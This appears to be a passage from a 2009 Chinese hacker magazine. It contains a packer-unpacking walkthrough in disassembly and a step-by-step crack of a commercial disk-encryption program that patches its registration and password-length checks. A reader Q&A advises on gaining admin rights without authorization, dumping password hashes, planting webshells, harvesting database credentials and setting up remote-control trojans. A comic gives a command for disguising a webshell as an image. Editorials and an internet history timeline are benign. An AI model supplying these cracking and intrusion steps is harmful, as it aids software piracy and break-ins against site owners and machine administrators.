004B9BFB  - FF15 D4904B00 call dword ptr ds:[<&KERNEL32.VirtualProtect>] ; kernel32.VirtualProtect
004B9C01    8B45 B4       mov eax,dword ptr ss:[ebp-4C]
004B9C04    8B0D 0C904B00 mov ecx,dword ptr ds:[4B900C] ; 00400000
004B9C0A    0348 0C       add ecx,dword ptr ds:[eax+C]
004B9C0D    894D F4       mov dword ptr ss:[ebp-C],ecx
004B9C10    FF75 F4       push dword ptr ss:[ebp-C]
004B9C13    FF15 D0904B00 call dword ptr ds:[<&KERNEL32.GetModuleHandleA>] ; kernel32.GetModuleHandleA
```

```assembly
004B9C19    8945 D4         mov dword ptr ss:[ebp-2C],eax
004B9C1C    837D D4 00      cmp dword ptr ss:[ebp-2C],0
004B9C20    75 10           jnz short 004B9C32
004B9C22    6A 08           push 8
004B9C24    6A 00           push 0
004B9C26    FF75 F4         push dword ptr ss:[ebp-C]
004B9C29    FF15 CC904B00   call dword ptr ds:[<&KERNEL32.LoadLibraryExA>] ; kernel32.LoadLibraryExA
004B9C2F    8945 D4         mov dword ptr ss:[ebp-2C],eax
004B9C32    837D D4 00      cmp dword ptr ss:[ebp-2C],0
004B9C36    75 38           jnz short 004B9C70
004B9C38    8B7D F4         mov edi,dword ptr ss:[ebp-C]
004B9C3B    8B45 FC         mov eax,dword ptr ss:[ebp-4]
004B9C3E    0345 B0         add eax,dword ptr ss:[ebp-50]
004B9C41    8BD0            mov edx,eax
004B9C43    83C9 FF         or ecx,FFFFFFFF
004B9C46    33C0            xor eax,eax
004B9C48    F2:AE           repne scas byte ptr es:[edi]
004B9C4A    F7D1            not ecx
004B9C4C    2BF9            sub edi,ecx
004B9C4E    8BF7            mov esi,edi
004B9C50    8BC1            mov eax,ecx
004B9C52    8BFA            mov edi,edx
004B9C54    C1E9 02         shr ecx,2
004B9C57    F3:A5           rep movs dword ptr es:[edi],dword ptr ds:[esi]
004B9C59    8BC8            mov ecx,eax
004B9C5B    83E1 03         and ecx,3
004B9C5E    F3:A4           rep movs byte ptr es:[edi],byte ptr ds:[esi]
004B9C60    6A 08           push 8
004B9C62    6A 00           push 0
004B9C64    FF75 FC         push dword ptr ss:[ebp-4]
004B9C67    FF15 CC904B00   call dword ptr ds:[<&KERNEL32.LoadLibraryExA>] ; kernel32.LoadLibraryExA
```

```assembly
004B9CEA    FF75 D4         push dword ptr ss:[ebp-2C]
004B9CED    FF15 C8904B00   call dword ptr ds:[<&KERNEL32.GetProcAddress>] ; kernel32.GetProcAddress
004B9CF3    8945 A8         mov dword ptr ss:[ebp-58],eax
004B9CF6    EB 20           jmp short 004B9D18
004B9CF8    8B45 E8         mov eax,dword ptr ss:[ebp-18]
004B9CFB    8B00            mov eax,dword ptr ds:[eax]
004B9CFD    0305 0C904B00   add eax,dword ptr ds:[4B900C] ; 00400000
004B9D03    8945 F8         mov dword ptr ss:[ebp-8],eax
004B9D06    8B45 F8         mov eax,dword ptr ss:[ebp-8]
004B9D09    40              inc eax
004B9D0A    40              inc eax
004B9D0B    50              push eax
004B9D0C    FF75 D4         push dword ptr ss:[ebp-2C]
004B9D0F    FF15 C8904B00   call dword ptr ds:[<&KERNEL32.GetProcAddress>] ; kernel32.GetProcAddress
```

使用 LoadLibraryExA 装载指定的动态链接库，并为当前进程把它映射到地址空间，然后用 GetProcAddress 函数检索指定的动态链接库（DLL）中的输出库函数地址。就这样，壳获取系统调用的 API 函数，为下面的进一步 IAT 解密提供了必要的信息。

```assembly
004B9DA5  |. 8378 14 00   cmp dword ptr ds:[eax+14],0 ; [eax+14]保存 OEP 地址
004B9DA9  |. 75 05        jnz short 004B9DB0
004B9DAB  |. 58           pop eax
004B9DAC  |. 33C0         xor eax,eax
004B9DAE  |. 40           inc eax
004B9DAF  |. C3           retn
004B9DB0  |> 58           pop eax
004B9DB1  \. FFE0         jmp eax ; 跳向 OEP
```

```assembly
004B9C6D    8945 D4         mov dword ptr ss:[ebp-2C],eax
004B9C70    837D D4 00      cmp dword ptr ss:[ebp-2C],0
004B9C74    75 08           jnz short 004B9C7E
004B9C76    6A 00           push 0
004B9C78    FF15 D8904B00   call dword ptr ds:[<&KERNEL32.ExitProcess>] ; kernel32.ExitProcess
004B9C7E    8B45 B4         mov eax,dword ptr ss:[ebp-4C]
004B9C81    8B4D D4         mov ecx,dword ptr ss:[ebp-2C]
004B9C84    8948 08         mov dword ptr ds:[eax+8],ecx
004B9C87    8B45 B4         mov eax,dword ptr ss:[ebp-4C]
004B9C8A    C740 04 3713C3>mov dword ptr ds:[eax+4],CDC31337
004B9C91    8B45 B4         mov eax,dword ptr ss:[ebp-4C]
004B9C94    8B0D 0C904B00   mov ecx,dword ptr ds:[4B900C] ; 00400000
```

在地址 004B9DB1 处 F8 之后，会来到 OEP 处，但是到了 OEP 之后发现不是我们熟悉的 OEP 入口代码，如图 4。估计这时 IAT 还没有解密完成，又或者 OEP 代码被偷了，所以还得继续单步跟着：

```assembly
004B9C9A    0348 10         add ecx,dword ptr ds:[eax+10]
004B9C9D    894D E0         mov dword ptr ss:[ebp-20],ecx
004B9CA0    8B45 B4         mov eax,dword ptr ss:[ebp-4C]
004B9CA3    8338 00         cmp dword ptr ds:[eax],0
004B9CA6    75 08           jnz short 004B9CB0
004B9CA8    8B45 E0         mov eax,dword ptr ss:[ebp-20]
004B9CAB    8945 E8         mov dword ptr ss:[ebp-18],eax
004B9CAE    EB 0E           jmp short 004B9CBE
004B9CB0    8B45 B4         mov eax,dword ptr ss:[ebp-4C]
004B9CB3    8B0D 0C904B00   mov ecx,dword ptr ds:[4B900C] ; 00400000
004B9CB9    0308            add ecx,dword ptr ds:[eax]
004B9CBB    894D E8         mov dword ptr ss:[ebp-18],ecx
004B9CBE    8B45 E8         mov eax,dword ptr ss:[ebp-18]
004B9CC1    8338 00         cmp dword ptr ds:[eax],0
004B9CC4    0F84 8C000000   je 004B9D56
004B9CCA    8365 A8 00      and dword ptr ss:[ebp-58],0
004B9CCE    8B45 E8         mov eax,dword ptr ss:[ebp-18]
004B9CD1    8B00            mov eax,dword ptr ds:[eax]
004B9CD3    25 00000080     and eax,80000000
004B9CD8    85C0            test eax,eax
004B9CDA    74 1C           je short 004B9CF8
004B9CDC    8B45 E8         mov eax,dword ptr ss:[ebp-18]
004B9CDF    8B00            mov eax,dword ptr ds:[eax]
004B9CE1    25 FFFF0000     and eax,0FFFF
004B9CE6    0FB7C0          movzx eax,ax
004B9CE9    50              push eax
```

```assembly
004610AC    B8 00C04800     mov eax,0048C000 ; 0048C000
004610B1    FFD0            call eax ; 进入到 0048C000
...
0048C14B    8985 B8000000   mov dword ptr ss:[ebp+B8],eax ; eax=kernel32.7C800000, ASCII "MZ"
0048C151    8D85 BC000000   lea eax,dword ptr ss:[ebp+BC]
0048C157    50              push eax
0048C158    FFB5 B8000000   push dword ptr ss:[ebp+B8]
0048C15E    E8 5C020000     call 0048C3BF ; IAT 解密 call
0048C163    8945 2C         mov dword ptr ss:[ebp+2C],eax
0048C166    8D85 C9000000   lea eax,dword ptr ss:[ebp+C9]
0048C16C    50              push eax
0048C16D    FFB5 B8000000   push dword ptr ss:[ebp+B8]
0048C173    E8 47020000     call 0048C3BF ; IAT 解密 call
0048C178    8945 30         mov dword ptr ss:[ebp+30],eax
0048C17B    8D85 D8000000   lea eax,dword ptr ss:[ebp+D8]
0048C181    50              push eax
0048C182    FFB5 B8000000   push dword ptr ss:[ebp+B8]
0048C188    E8 32020000     call 0048C3BF ; IAT 解密 call
```

看到有三处都是调用 call 0048C3BF 来解密 IAT，继续 F8 往下走:```assembly
0048C29C    8B7A 1C         mov edi,dword ptr ds:[edx+1C]   ; [edx+1C]保存 OEP 地址
0048C29F    8D72 79         lea esi,dword ptr ds:[edx+79]
0048C2A2    B9 08000000     mov ecx,8
0048C2A7    F3:A4           rep movs byte ptr es:[edi],byte ptr ds:[esi]
0048C2A9    59              pop ecx
0048C2AA    5F              pop edi
0048C2AB    5E              pop esi
0048C2AC    C3              retn    ; 返回到 OEP
```

当返回后，我发现原来丢失的 OEP 代码已经跑回来了，如图 5。


找到了 OEP，这时正是 dump 的最佳时机，拿出 LordPE 来抓取文件吧，然后用 ImpREC FINAL 1.7 来修复 dump 下来的程序，如图 6。


先填入 OEP 的地址，然后“自动查找 IAT”，再“获取输入表”，这时候发现有一个 IAT 没有修复好。一般来说是使用右键先把它“剪切”掉看看，因为只有一个 IAT 没修复好，自然剪切后就没有无效函数了，这时候可以把它“转储到文件”了。


这样就修复好了，但是当我运行脱壳修复后的程序时，问题出现了，如图 7。

看到了吧，程序无法运行起来。看来是那个被剪掉的函数在作怪，也就是说，那个没有自动修复好的函数被剪切掉后就丢失了，如果不把它找出来，那么程序肯定是不能再正常运行起来的。


既然自动修复没有修复好，那么只能手动修复了。再来一次修复吧，但是这一次我们看看那个没自动修复的 IAT 函数的 RVA 地址是多少，如图 8。


从图中看到 RVA=0006846C，再加上基址 400000，那么地址就是 46846C。在 OD 中重新载入吧，然后在数据窗口跳到地址 46846C 处，如图 9。

从图中可以看到，停在壳入口处的时候，地址 46846C 处的值为 0，然后在跳向 OEP 的地址处按 F2 下断点，这时地址 46846C 处的值已经发生变化了，如图 10。


很明显 0046846C 处的 IAT 为 GDI32.CreateFontIndirectA，既然知道了这个丢失的 IAT，我们把它放进去吧，如图 11。


修复后，发现程序可以正常运行起来了。

### 小结

这次我基本只是用 F8 走了一遍，走完之后，可以总结一下这个壳的脱壳方法了：

- 第一，可以使用 ESP 定律；
- 第二，可以使用 bp VirtualProtect 断点；
- 第三，可以使用搜索二进制代码 FF E0 5F 5E 5B C9 C3，然后飞向 OEP。

对我来说，至少我也能够总结出以上三种比较快速的方法，当然你也可以通过自己的跟踪调试，得出自己的方法。脱壳的方法肯定不止我刚才说的几种，所以如果你也有什么新的方法的话，不妨到“黑手”的论坛与大家交流一下。

> 【文章所涉及到的目标程序已收录在光盘中】

**编辑点评：** 一直以来，大家脱壳的时候大多数都是用 ImpREC 自动修复 IAT 函数的，但是有些壳就不行，所以掌握这个手工修复 IAT 函数也是必备的基础课。

grrxrslt (浪子)

## 小破“极品私人密盘”

从本文你可以学习到：
1. 爆破基本方法
2. 打造个人专版的方法

### 一、破解密盘

“极品私人密盘”是深圳恒波软件公司开发的一款磁盘加密工具，如图 1。


其加密效果还是蛮强的，不过该软件需要注册，要花 29 块大洋啊！偶很穷，就来小破一下，Let's Go! 经测试发现，此软件未注册时，加密密码不能超过 5 位，如图 2。


而且发现它的注册方式是属于重启验证型的，如图 3。有了这些东西我们就可以开始“动刀”了。首先用 PEiD 查下壳，是 ASP 压缩壳，如图 4。

对于这个壳我们可以直接使用“ESP 定律”搞定。用 OD 载入程序，F8 跟一步，发现寄存器 ESP 处高亮“0012FFA4”。此时在命令行里输入“hr 0012FFA4”，然后按 F9 让程序运行，此时程序来到了如下代码处：


```assembly
0053E3B0    75 08           JNZ SHORT 0053E3BA
0053E3B2    B8 01000000     MOV EAX,1
0053E3B7    C2 0C00         RETN 0C
0053E3BA    68 F8024D00     PUSH 004D02F8
0053E3BF    C3              RETN
```

F8 跟到地址 0053E3BF 就会跳到程序的入口点了，直接脱壳搞定。脱壳后程序保存为 01.exe，通过 PEiD 发现是 Delphi 写的，如图 5。


看来脱壳成功了，接下来开始破解。用 OD 重新载入脱壳后的程序，利用字符串查找功能很快找到了验证注册与非注册的地方，如图 6。


我们双击跟进去，来到如图 7 所示的地方。


从图 7 中我们可以看到一个 JE 判断跳，用来判断是否注册，我们改成相反的 JNZ 就可以搞定了，即把 004CE242 处的“JE SHORT 004CE26C”改成“JNZ SHORT 004CE26C”。

修改完成后我们保存为 02.exe 测试一下，运行后发现已经是注册版了，如图 8。


而且注册项也消失了，成功了吗？那倒未必，后来测试才发现，虽然是显示“已注册”，不过功能还是没有变，还是不能输入 5 位以上的密码。

那我们继续分析 02.exe。重新载入 02.exe，继续利用字符串查找功能，找到了提示密码超长的地方，如图 9。


继续跟进去看看，还是个判断跳，如图 10。我们直接修改“JLE”为“JMP”跳过去就可以了。修改后保存为 03.exe，运行测试成功了，这下可以输入 5 位以上密码了。

### 二、打造密盘

破解是完成了，不过我还没玩够，那就给我们的密盘重新包装一下吧。首先是修改名字，用 C32ASM 载入 03.exe，选择“十六进制模式”，如图 11。


然后右键“搜索”，将“极品私人”替换为“浪子专用”，如图 12。大家在修改的时候一定要注意长度要一致。好了，点击“全部替换”，完成后保存为 04.exe，来看看我们的成果吧，如图 13。

接下来是修改邮箱、网站和公司名，方法和上面说的差不多。这里要注意修改前后字符长度，不够的可以用空格填补，最后保存为 05.exe，修改后的情况如图 14。

细心的朋友会发现，此时文件的公司名和描述还是没有变，如图 15。那我们就来修改一下，用到的工具是 ResScope。运行 ResScope 后载入 05.exe，来到“Version”选项，修改相关数据即可，如图 16。最后保存为 06.exe，来看看最终的效果吧，如图 17。


图 16 ResScope 修改特征字串


图 17 修改后的效果

### 三、总结

我们最开始是发现了重启验证，但是并没有走那条线路，因为我走重启验证的时候根本一点线索也找不到，所以还是选择暴力修改法，同样达到了想要的效果。当我们遇到问题的时候，可以选择不同的路去走，条条大路通罗马，只要达到目的就算成功。

> [文章所涉及到的相关工具程序已收录在本期光盘中]

**编辑点评：** 本文破解的方法比较中规中矩，一般来说，最简单的破解流程基本就是这样了。在打造个人专用版方面是本文一大亮点，我知道有很多人喜欢搞点自己的专用版，我相信这篇文章是你不错的选择。

---

## Q&A

**邮箱:** nohack@126.com
**主持人:** 徐广德

**Q: 各位大大，现在我这里有一台机子，只有 user 权限，admin 没密码进不去。请问有什么办法能让我可以拥有 admin 的权限吗?**

**A:** 如果这台机器没有更新系统补丁，不妨可以尝试一下本地溢出漏洞，例如 MS08-025 等，或者结合第三方软件的本地提权。

User 权限实际可以做很多事情了，你可以在“C:\Documents and Settings\Administrator\「开始」菜单\程序”这个目录下建立一个添加管理员账户的批处理，或者利用组策略的启动脚本写入相同功能的文件，待管理员登录后就可以添加管理组用户了。

当然，如果是友好模式的登录界面，容易引起察觉，所以建议你获得管理员系统账户后，利用 PWDUMP 等导出管理员的 HASH，然后利用 SAMINSIDE 或者 LC5 跑管理员的密码，当然别忘记了彩虹表。

**Q: 我进入后台后，上传大马，然后备份，页面就自动跳转回登录时的页面，这是什么回事?**

**A:** 有可能管理员把备份的操作写了一个跳转，直接转向登录页面。不过由于你登录后已经进行了 Cookies 或者 Session 的验证，那么直接跳转到登录页面，说明你的操作可能是非法的。

不妨尝试正常备份，结合脚本源码看看程序是如何判断，或者根本就是该功能页面被人为做了修改。当然，如果通过备份获取 WebShell 的方法行不通，那么试试上传漏洞，或者配置文件写入一句话木马。

现在的很多后台备份页面采取了扩展名加文件内容的判断，绕过的方法其实有很多，例如上传插马的库文件，然后进行备份，或许会成功。

**Q: 请问拿到 WebShell 后怎么拿到 MSSQL、MySQL 的密码?**

**A:** 这个话题貌似很简单，其实想必也困扰了很多菜鸟朋友。通常我们要进行提权，结合脚本查找 MSSQL 或者 MySQL 的密码是必经之道，但是这些文件是如何定义的，在哪些脚本里可以找到，却又不可泛泛而谈。

说说最简单的 ASP 程序查找配置文件的方法，这种文件一般用 include 引入到了登录判断页面，查找起来相对容易些。例如 conn.asp、config.asp 等，目录一般定义在 WEB 根路径、include 以及 inc 等，得看程序员的编程习惯。

而 MySQL 查找起来也相对容易，但是由于 PHP 编程风格的原因，导致很多的人文件找起来相对麻烦，但是方法还是和 ASP 基本相同的。如果你有经验，找起来会非常快捷，例如常见的文件名：common.inc.php、config.inc.php 等。像 xoops 这种脚本写在 mainfile.php 文件里，常规判断起来可能不好找，但是有个技巧很方便，那就是程序在创建和写入配置的时候，库信息的文件一般存在时间差。

说说 ASP.NET 吧，常规记录在 web.config 文件里，但是有一些程序是建立后自动生成的，例如 IWMS 的 iwms_dbt.cs 文件。JSP 程序查找起来相对麻烦，关键看源码里怎么定义和配置。

最后我想说的是，如果你是一个程序员，那么你找配置文件的思路和方法绝对比脚本盲快很多，所以掌握语言的基础是很重要的，当然经验也尤为可贵。

**Q: 小菜我在学习远控软件的上线时遇到了几个问题，望高人指点：**
1. 我是用无线路由器上网的，但仍要用拨号软件连接宽带，请问我这种情况属于内网还是外网?
2. 我知道远控自动上线可以用希网 3322、花生壳或上线通，但三种我都试过，均失败。由于我怀疑自己是内网，所以端口映射也试过了，仍失败。只有一种情况我能上线，那就是：在配置客户端时，在 IP 地址处填：192.168.1.100 或 127.0.0.1 的情况下。

**A:** 你用无线路由器上网，却还要通过 PPPoE 拨号来连接，你的设备是否真正的承担一个路由器的角色? 判断内网外网非常简单，在“开始”菜单“运行”里输入“cmd”进入命令提示符，然后输入“ipconfig”查看当前 IP，如果你是拨号上网，那么肯定就是当前外网 IP 了。

至于你说的填写 192.168.1.100 或 127.0.0.1 能够上线，这是毋庸置疑的，这是你的本地 IP，你即使不连接互联网，你的 PC 照样上线。按照你这样的描述，你应该在内网环境，那么用 3322 做一个域名转发，再利用上线通或者路由器映射端口吧。

建议你装一个影子系统之类的还原保护吧，至少负责地告诉你，现在很多远控都包含有后门。最后我建议类似你这样的读者先学习一下网络基础，然后再使用远程控制吧。

**Q: 想请教各位一下，为什么我用 GHOST XP SP3 重装系统时每次还剩 30M 时就突然跳掉，貌似复制不进去了，我去过维修部，已知硬件没问题，这是怎么一回事啊？**

**A:** 突然跳掉是提示 ghosterror 么？还是程序卡住了？如果有出错提示，那么检查你的光驱和光盘；实在不行可以使用复制到本地硬盘再安装。如果安装到最后会卡住不动甚至死机，一般是磁盘类型冲突或者写入一个较大的文件时容易引起这种问题。建议你不妨先格式化你的主分区，然后再 GHOST。

**Q: 在虚拟机怎样安装 Windows 2000 操作系统？安装到一半就会停止在一个“继续安装、修复，和退出安装”的画面，按回车继续安装也没有反应！**

**A:** 你采用的是安装版，而你所谓的版本是 Ghost 镜像版本。用虚拟机安装 Windows 2K 的确容易出错，因为这套系统对硬盘的识别很差，特别是大硬盘下往往无法安装。建议你的问题可以换用 ISO 镜像文件安装，或者下载一个 Ghost 版本的 Win2K 进行。

**Q: 求一个强大的 PHP 木马。顺便问下 fix.php 的初始密码是什么？**

**A:** fix.php 这款木马的初始密码应该是 demo。如果你不懂 PHP，那么查找内容中的 pass 位置，一般很容易就能找到定义的密码。至于功能，我觉得 PHPSpy 这样的木马绝对够用了，或者 c99shell 和 cnbird 写的 EgY_SpIdEr，功能都很强大。不能总追求一款什么都能给你办的程序，自己的理解和思维是最重要的。

**Q: 我将扫描漏洞的 X-Scan + 扫描目录的 wwwscan 等等组成自己的检测利器，希望大家能列出自己用的扫描器组合。**

**A:** 扫描类工具分为多种，推荐综合类扫描器 X-Scan、HScan 和 WVS。WVS 是一款主要针对 Web 漏洞的扫描器。相对的注入点和后台扫描，有 NBSI、啊D注入工具、wwwscan 等。至于后台扫描，推荐用 wwwscan，它对 WEB 服务器的判断、错误判断和扫描速度绝对是一流的，重要的是如何强化你的字典。端口扫描批量扫网段用 S 扫描器；指定 IP 的扫描，SuperScan 和 Blue's 是值得信赖的。

---

打雷啦，下雨啦，夏天终于快 OVER 啦！秋天即将 START！北京的秋天是很短暂的，一般就两个月，空气很干燥，后果很严重。9 月同学们都开学了，上大学的上大学，找工作的找工作，也可以结识一些新朋友。总之，这个夏天真的是很难过啊，大雨，大风，晃悠悠……

### 建议选摘

**姓名：** 刘伟
**职业：** 教师
**建议：** 我是职业中学的教师，为了教学的方便，常常自己制作电子课件。在制作的过程中，我使用了 FLASH、易语言、VB 这三种工具来完成，由此突然感到，如果这些工具的优秀功能都能集合在一起，那是多么方便而强大啊！

**真正的“编”辑：** 编程是个杂乱活，特别是多媒体编程。我认为，依照自己所需而选择合适的工具，那才是提高效率的好方法。多媒体制作最好还是用 FLASH 及一些游戏制作软件为主，它们对图形及影音文件的支持很好，而且互动功能也很强。

**姓名：** 周思维
**职业：** 学生
**对光盘有什么建议：** 光盘改成 DVD 啦，不错不错。不过，如果光盘界面做得更像游戏那种就爽了，我的业余兴趣就是画画，所以希望看看美观的东西，嘿嘿。
**希望看到什么专题的图书或文章：** 有快速的编程指导类的书吗？有快速的安全检测类的书吗？有快速的网站制作类的书吗？我求书心切！

**猪猪亲爱的菜编：** 已经给大家说过多少遍了，一切要循序渐进，打牢基础才能爬更高的金字塔！这位读者可能是一位新手，求书心切可以理解，但我相信悟性高的一样可以快速达成目标哦。

## 非安全·黑客手册

NoHack，记录本土黑客历史，推动黑客文明进程。投稿：nohack@21cn.com
2009.10 No. 10

### 反渗透国外IDC
### [国际社工] 黑客遭遇FBI

- [hack]
- 一次完美的远杀
- Oracle提权点滴记录
- 某站导出webshell

- [小说]
- 夜幕猫来临II
- ——笔记本要随身带

- [成品] 轻松登录MSN，快乐聊天！
- [编程技能] 编译个人专版的灰鸽子
- [特别策划] 功夫熊猫Hacker系漫游记3
- [破解] 软件破解入门系列之十一——常用的脱壳方法
- 修改Hide Window Hotkey NG——脱壳、去自校验和...

- [hack基础] 黑客脚本渗透普及
- [企业实战hack系列]
- 几家企业服务器不幸沦为——虚拟企业集群系统2008主控端5号
- 企业服务器外，政策集中，之细说攻击某大型企业CMS
- 几家企业网络管理系统之——SQL注入漏洞浅析

- [DVD推荐]
- 英特尔并行程序开发
- SSS扫描工具
- Ubuntu 9.04 Linux视频教程
- JHACKJ高级黑客攻防视频教程
- 共和国十三次大阅兵全回顾
- 黑手爱国专题之《美丽中国》

## 写在前面

### 国庆中秋喜相逢

真的很意外，2009年国庆和中秋相逢在一周中而放假8天，而且再告诉大家：2010年2月14日情人节居然是农历春节，偶们就给这天取个新名字：春情节！呵呵，不知道多少年才能遇到一回，于是马上到baidu去google一下，资料如下：

中国农历春节与西方情人节同在一天的日子：2010年、2048年。

看到没，要48年后才有这样的相遇了，当2010年的时候不妨约定，相约48年后做个特别的纪念吧，也许那时都60岁以上了哦，或者已经天隔一方，又或相眠另一个世界了。

大喜的日子不说悲情，又查了下国庆节与中秋节是一天的：1982年、2001年、2020年、2031年，发现貌似平均10多年就会一遇，只是以前没有注意罢了。

以往更多时候的国庆都是在平淡当中度过，但十年一次的大庆就该好好总结下了。改革开放30年来，中国在经济、军事、科技等方面取得了长足的发展。60年前的10月1日，世界人民看到了一个新中国的诞生；而60年后，“和平崛起，永不称霸”依然是中国的发展策略。

2009年中国最受瞩目的大事之一无疑就是新中国成立60周年大庆，届时将举行“厉行节约”前提下的阅兵式，这是我国第14次、也是新世纪的第一次阅兵。

自1949年以来，我国先后举行了13次国庆阅兵，其中影响较大且具代表意义的是开国大典、新中国成立5周年、10周年、35周年和50周年的5次大阅兵。阅兵历来被认为是展现国威、扬军威的最佳方式，更是树立民族自信心和自豪感的重要形式。

中国上一次举行国庆阅兵已是10年前的事了。这10年来，中国的现代化事业突飞猛进，国民收入、经济实力乃至军事实力都有明显提高。和平时期，军队的另一个主要作用就是威慑，而阅兵就是一种常用的威慑手段。它是国家使用不流血的军事方式来解决军事问题和政治问题的重要工具。气势如虹的中国人民解放军更是对那些欲挑战中国核心利益和领土主权完整的国内外敌对势力的绝对震慑。就如同北京奥运会一样，让我们共同期待、共同见证那踏着正步通过长安街的雷霆万钧吧。

最后中秋了，大家帮我传个话：余南台，你妈妈叫你回家吃饭！

## 新闻时评

### 我们有了网民节

2009年9月14日上午9时14分，来自全国各地的网民相聚在北京最高地标建筑——中央电视塔，共同庆祝“首届中国网民文化节庆典”的举行，咱们3亿网民终于“被节日”了。

其实个人感觉，这个节日的公布貌似并没有引起很多人的注意，我联系的许多网友都是茫然，难道我们已经属于outman（落伍者）？

许多人可能都有疑问，为什么是9月14日呢？这个数字似乎……那是因为1987年的9月14日，随着一封内容为“跨越长城、走向世界”（Across the Great Wall we can reach every corner in the world）的电子邮件的发出，我们中国人完成了对互联网的一次有意义的触碰。而时值22年后，我国3亿多网民才迎来了自己选定的节日。

不得不承认，有了网络的迅猛发展，我们才可以在这个“娱乐基本靠手”（敲键盘、按鼠标、玩游戏机……）的时代，享受网络带给我们的足不出户、慵懒成性、自主创业等一切虚拟和现实相结合的社会空间。

据悉，我国拥有3亿多的网民数量，位居世界第一，对于他们来说，互联网已经成为生活常态，大家从中获取的信息量越来越大，能够做的事情越来越多，参与社会生活的需求越来越强烈，网络成为网民观点表达及才华展示的舞台。

如此庞大的群体需要受到有针对性的关注，这就是电子商务网站、网瘾戒除机构等的目标，当然，网络的另一面——黑客也在瞄准着！所以，网络安全，任重而道远。

要全民普及网络安全教育，并不是任何一个机构可以解决的问题，因为网络实在是在变化万千，不确定因素实在太多。了解网络的方方面面，储备自己的网络知识，将网络应用社会化，随时要有良好的网络操作习惯，这可以避免大部分的网络受害事件。

总之，非常高兴网民们有了自己的节日，争取把9月14日并入国庆假期当中吧，哈哈哈！估计以后每年一度的这个节日，网络上会闹出个什么动静吧？

最后，附“互联网40年大事记”部分：

- 1969年：加州大学洛杉矶分校在实验室里完成了两台计算机之间的数据传输试验，即阿帕网 (ARPANET)。随后，加州大学洛杉矶分校与斯坦福研究所实现首次网络连接。
- 1970年：阿帕网在美国东海岸地区建立了首个网络节点。
- 1972年：雷·汤姆林森 (Ray Tomlinson) 引入电子邮件功能，并选择 @ 符号标记电子邮件地址。
- 1973年：阿帕网建立了首个全球节点，地点位于英格兰和挪威。
- 1974年：温顿·瑟夫 (Vint Cerf) 与鲍勃·卡恩 (Bob Kahn) 开发了 TCP 通信协议，后演变为 TCP/IP，并在1983年1月1日成为国际标准。
- 1983年：域名系统 (DNS) 被提上日程，一年后，.com、.gov 和 .edu 域名被启用。
- 1988年：首个互联网蠕虫“莫里斯” (Morris) 爆发，感染数千台计算机。
- 1989年：量子计算机服务公司 (即 AOL) 为 Macintosh 和 Apple II 两种型号的计算机提供网络接入服务。
- 1990年：蒂姆·伯纳斯-李 (Tim Berners-Lee) 在欧洲核子研究中心 (CERN) 开发了远程控制计算机的方法，万维网 (WWW) 诞生。
- 1993年：马克·安德森 (Marc Andreessen) 与伊利诺斯大学的同事开发了首款图形 Web 浏览器 Mosaic。
- 1994年：安德森与 Mosaic 团队成立公司，开发首个商业化浏览器 Netscape。
- 1995年：亚马逊网站开张营业。
- 1998年：谷歌成立。
- 1999年：Napster 普及了音乐共享。
- 2000年：互联网泡沫破裂。
- 2002年：全球网民数量超过5亿。
- 2004年：社交网站 Facebook 诞生。
- 2005年：视频网站 YouTube 诞生。
- 2006年：全球网民数量超过 10 亿。
- 2007年：苹果推出 iPhone 手机。
- 2008年：全球网民数量超过 15 亿，中国网民数量达到 2.5 亿，超越美国位居全球第一。
- 2009年：中国网民飞速发展到 3 亿以上，稳居全球第一！

## 功夫熊猫 3：Hacker 系漫游记

为了钻研网络技术，熊猫阿宝昼夜不分地去学习，疯狂地去寻找目标计算机，进行提权测试！不过太过于沉迷一样东西也会给身体带来危害，你看阿宝的熊猫眼就知道了，正是他天天熬夜导致的结果。本来已经很“熊猫”的啦，现在更加圆了！所以在这里提醒大家千万别学阿宝哦，要合理安排时间，万万不能昼夜不分的沉溺于网络中，要时刻记住：“身体是革命的本钱”。不过话说回来，阿宝在这段时间深入地研究提权的方法，从中学会了不少技巧。

又是一个月圆之夜，山谷中的伙伴们都已休息，唯独阿宝还坐在窗前敲击着键盘，此时它感觉到一丝丝的寂寞。走出屋外，抬头望着圆圆的月亮，叹了一口气，接着往悬崖上的桃树走去……

月光笼罩着整个和平谷，山下还隐隐约约看见一些灯光，熊猫阿宝站在悬崖上眺望着和平谷，突然大喊一声：哥提的不是权，是寂寞！寞寞寞……（山谷在回响）

回声未落，阿宝已经摘下一个果子塞进嘴里了。此时悬崖边出现了许多花瓣，阿宝当时吓坏了，不久乌龟大师就凌空出现在悬崖边上。

“宝！何谓寂寞？何谓不寂寞呢？如果你把寂寞看作是一件苦差事，那你肯定会很难受；如果你不把它当一回事，你会过的很好。这只是心态问题，静下心来，心无旁骛，心无杂念地去学习吧。这样寂寞再也不会来找你，学习其实会给你带来很多乐趣的。其实高手们都习惯了寂寞，只有这样才能够用心的钻研技术！”乌龟大师说完话就消失了！

“啊！习惯寂寞？那么我要作为一个高手就需要习惯孤独么？”阿宝貌似领略到了什么，然后喃喃自语地说：“寂寞？高手？孤独？心态？”

天已经亮了，阿宝精神奕奕地走进实验室，貌似已经领略了乌龟大师的话。

“Good morning！师兄！”
“早上好，阿宝！”

“今天貌似精神不错嘛！这段的 webshell 就不能上传上去，造成一大批入侵者的郁闷。而 copy 命令正好有合并文件的功能，这样我们就可以随便找一个图片用 copy 命令将它跟一个 webshell 合并就可以正常上传了。合并命令为：`copy 1.gif+2.asp 2.gif`，如图 13。

## 刀光剑影

“熊猫师弟啊，今天怎么你当老师了？”鹤师兄刚来到实验室。

“是啊！师兄他们说要考我，我就给他们演示一下，见笑了！”阿宝很得意，后果很严重……

“师弟，你手上的教鞭怎么那么像我的无线装备？”语音未落，鹤师兄已飞到自己的座位上，一看就傻了眼……阿宝手上的教鞭正是它的绝版无线工具啊！

鹤师兄怒火冲天，接下来的是一场刀光剑影，阿宝被打的遍体鳞伤，真是可怜的孩子，谁叫他这么不长智又做错事情了呢。

“停！停！暴力不能解决问题的。”这个时候师傅也来到实验室了，应该是被这场激战的声音引来的吧。

“师傅！你评评理，熊猫师弟太气人了，竟然拿我的无线装备当教鞭，万一弄坏了可惨了。”鹤师兄委屈的说。

“master 师傅！我不知道那是什么东西，我看见蛮像教鞭的就拿来用了，不过我没弄坏哦。这里向鹤师兄说声对不起，再说我已经被打的遍体鳞伤了，呜呜呜呜……”阿宝当时的样子真的好可怜哦。

“下次不懂先问问别人，别总是自作主张，明白没？”小浣熊师傅说。

“知道了，师傅！”阿宝趴在地上回答道。

“继续你们的讨论吧！”师傅说完就走了。

